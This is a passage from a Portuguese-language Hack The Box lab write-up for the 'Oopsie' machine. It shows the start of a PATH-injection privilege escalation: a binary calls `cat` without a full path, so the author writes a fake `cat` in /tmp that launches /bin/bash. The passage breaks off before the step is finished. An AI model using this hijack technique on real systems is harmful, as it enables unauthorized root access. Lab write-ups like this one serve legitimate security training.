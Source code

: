 <img src="/img/htb/htb-oopsie-23.png">

Percebemos que em determinado momento, o binário usa a função `cat` do SO em algum arquivo, o que nos dá a oportunidade de tentar `PATH INJECTION`.

## Escalação de privilégios

Primeiro vamos criar um arquivo `cat` no diretório `/tmp` contendo o comando `/bin/bash`.

```bash
robert@oopsie:/tmp$ echo '/bin/bash' > cat
echo '/bin/bash' > cat
robert@oopsie:/tmp$ ls -la
ls -la
total 12
drwxrwxrwt  2 root     root     4096 Sep  5 22:49 .
drwxr-xr-x 24 root     root     4096 Jan 27  2020 ..
-rwxrwxrwx  1 robert   robert   10 Sep  5 22:49 cat

```
